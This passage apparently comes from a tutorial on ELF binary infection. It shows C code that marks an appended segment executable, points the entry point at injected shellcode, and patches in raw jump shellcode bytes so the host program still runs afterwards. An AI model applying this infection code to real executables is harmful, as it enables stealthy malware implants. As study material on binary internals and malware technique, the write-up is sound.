 ```plaintext

p_flags = PF_R | PF_X;        // Set read and execute permissions


p_offset = file_offset;       // Set p_offset to the file_offset. The file_offset
                              // is the size of the original ELF binary.
                              // And what's at the *end* of our ELF?
                              // The shellcode we append.

p_vaddr = memory_offset;      // The virtual address offset we want to map our 
                              // shellcode to. Equivalent to the file size
                              // offset but at a higher address range, e.g.
                              // 0xc00000000

p_memsz += sc_len;            // Increase the number of bytes in the file 
                              // image of the segment by the length of 
                              // the shellcode

p_filesz += sc_len;           // Increase the number of bytes in the memory 
                              // image of the segment by the length of the 
                              // shellcode

```
Lastly, use assign `elf_header->e_entry = memory_offset`, modifying the ELF entry to point to our memory offset where our shellcode will reside when it's loaded.

## And Patch Me Up

The next step is really important to understand. This is where we call our very helpful `patch` function. 

```C
    // Patch shellcode to jump to the original entry point after finishing
    patch(&shellcode, &shellcode_len, elf_header->e_entry, original_entry);
```

And once inside, there's an additional array of shellcode called `jump_shellcode`. We patch this array with the values we pass to the `patch` function. 

We then modify the original shellcode buffer from earlier -- extending it by the size of the additional `jump_shellcode` array. 

After our original shellcode array is extended by the size of the `jump_shellcode` array, we `memcpy` the additional patched `jump_shellcode` into the extended shellcode buffer space, aka at the end of our malware code. And finally we update our shellcode buffer and length pointers to our new updated shellcode buffer and length pointers.


```C
// Patch in shellcode from jumpstart.s to resolve original_entry point

void patch(unsigned char **shellcode, size_t *shellcode_len, uint64_t entry_point, uint64_t original_entry) {
   
    unsigned char jump_shellcode[] = {
        0xe8, 0x2d, 0x00, 0x00, 0x00, 0x49, 0xb9, 0xef, 0xbe, 0xad, 0xde, 0xef, 0xbe, 0xad, 0xde,
        0x49, 0xba, 0x0d, 0xf0, 0xad, 0xba, 0x0d, 0xf0, 0xad, 0xba, 0x49, 0xbb, 0xb5, 0x00, 0x6b,
        0xb1, 0xb5, 0x00, 0x6b, 0xb1, 0x4c, 0x29, 0xc8, 0x48, 0x83, 0xe8, 0x05, 0x4c, 0x29, 0xd0,
        0x4c, 0x01, 0xd8, 0xff, 0xe0, 0x48, 0x8b, 0x04, 0x24, 0xc3
    };
    // Write values using little-endian ordering
    write_u64_le(&jump_shellcode[7], (uint64_t)(*shellcode_len));
    write_u64_le(&jump_shellcode[17], entry_point);
    write_u64_le(&jump_shellcode[27], original_entry);

    // Extend shellcode vector by appending the jump_shellcode size;
```

[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up